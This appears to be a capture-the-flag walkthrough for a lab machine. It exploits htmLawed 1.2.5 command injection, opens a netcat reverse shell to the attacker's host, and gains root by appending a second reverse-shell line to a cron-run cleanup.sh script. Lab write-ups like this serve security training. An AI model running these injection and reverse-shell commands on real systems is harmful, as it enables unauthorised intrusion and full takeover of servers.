

# Recon
Make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.227.190 law.offsec
```
## Nmap
``` bash
nmap -p- --open -sC -sV law.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.


The nmap scan shows port 22 and 80 are open on the target. Port 80 is the web application, going to `http://law.offsec` reveals a web application built with htmLawed 1.2.5.

# Initial Access
Searching through google for htmLaw vulnerabilites, I came across a command injection exploit which ran commands using the `exec()` php function.
- the hook option in settings allows the user to set a function through which the input will be passed
- using the command `id` we can see if the web application runs the command without sanitizing the input


However, when clicking on `Process`, we get an error 404 not found. Seems like the web application is sending the request to the wrong destination

We can alter this functionality by capturing the request in Burp Suite
- start burpsuite, and enter `id` in input field and the `exec` function in the hook field, then capture the request after clicking `Process`

We can remove the .php file from the URL as it seems like the web application does not contain this file/endpoint.


After removing the `htmLawedTest.php` from the endpoint, we can forward the request
- the `id` command is executed by the web application and we can see that we are running under the user `www-data`


## Reverse shell
Now that we have command injection, let's run a reverse shell to get a foothold on the server.
- start a netcat listener on the Kali host with `nc -lnvp 1234`
- then input the following command `nc -e /bin/sh 192.168.45.220 1234` in the input field, `exec` function in the hook field and capture the request to remove the php file from the URL


We receive a reverse shell as `www-data`

- the first flag is in the directory `/var/www`

# Privilege Escalation
## Pspy
Pspy is a tool that can be used to detect running cronjobs and other commmands being executed without the need for root permissions.

Follow these steps to use the pspy64s file and run it on the kali machine
1. Download the _64 bit small version: pspy64_ from the github [here](https://github.com/DominicBreuker/pspy/tree/master)
2. Start a python http server using `python3 -m http.server 80` in the directory with the downloaded pspy
3. On the target machine use the following command to save the pspy binary to the `/tmp` directory
```
curl -o /tmp/pspy64 http://$kali_ip/pspy64
```
4. Then run pspy by first running `chmod +x pspy64` then `./pspy64`

After running the script and waiting for some time (for cronjobs to run etc.) the output shows the following


Remember: in the same web folder as `local.txt`, there was a file called `cleanup.sh`
- this file is being run through bash with uid=0 which is the root user
- if user `www-data` is able to change the `cleanup.sh` file, these commands will also be run as the root user

Start another listener and add the following command to the `cleanup.sh` file
```
echo "nc -e /bin/sh 192.168.45.220 1233" >> cleanup.sh
```
- make sure to use a different port than the first reverse shell


# Summary
After reconnaissance and a Nmap scan, a htmLawed application on port 80 is identified. Exploiting a command injection vulnerability, we can gain a reverse shell as the www-data user. Privilege escalation involves Pspy to detect cron jobs, revealing a root-executed cleanup.sh script. By manipulating this script, we can establish a root-level reverse shell.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points